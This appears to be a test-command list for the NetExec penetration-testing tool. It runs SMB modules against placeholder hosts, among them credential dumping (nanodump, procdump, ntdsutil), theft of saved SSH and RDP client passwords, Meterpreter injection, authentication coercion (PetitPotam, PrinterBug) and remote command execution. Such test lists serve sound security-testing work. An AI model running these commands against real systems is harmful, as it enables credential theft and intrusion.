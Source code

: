 #netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M masky -o CA="host.domain.tld\domain-host-CA"
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M met_inject -o SRVHOST=127.0.0.1 SRVPORT=4443 RAND=12345
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M mobaxterm
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M mremoteng
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M ms17-010
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M msol
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M nanodump
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M nopac
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M ntdsutil
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M ntlmv1
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M petitpotam
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M pi
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M coerce_plus
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M coerce_plus -o METHOD=petitpotam
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M coerce_plus -o METHOD=printerbug
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M coerce_plus -o METHOD=shadowcoerce
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M coerce_plus -o METHOD=mseven
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M coerce_plus -o METHOD=dfscoerce
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M coerce_plus -o M=dfs
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M coerce_plus -o LISTENER=127.0.0.1
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M coerce_plus -o METHOD=petitpotam LISTENER=127.0.0.1
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M coerce_plus -o METHOD=printerbug LISTENER=127.0.0.1
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M coerce_plus -o METHOD=shadowcoerce LISTENER=127.0.0.1
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M coerce_plus -o METHOD=mseven LISTENER=127.0.0.1
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M coerce_plus -o METHOD=dfscoerce LISTENER=127.0.0.1
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M coerce_plus -o M=dfs LISTENER=127.0.0.1
# Will need to change the PID for your test system
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M pi -o PID=100 EXEC='dir'
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M procdump
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M putty
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M rdcman
#netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M rdp -o ACTION=enable
#netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M rdp -o ACTION=disable
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M reg-query -o PATH=HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion KEY=DevicePath
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M runasppl
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M scuffy -o SERVER=127.0.0.1 NAME=test
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M scuffy -o NAME=test CLEANUP=True
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M slinky -o SERVER=127.0.0.1 NAME=test
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M slinky -o NAME=test CLEANUP=True
# spider_plus takes a while to run, so it is commented out during normal testing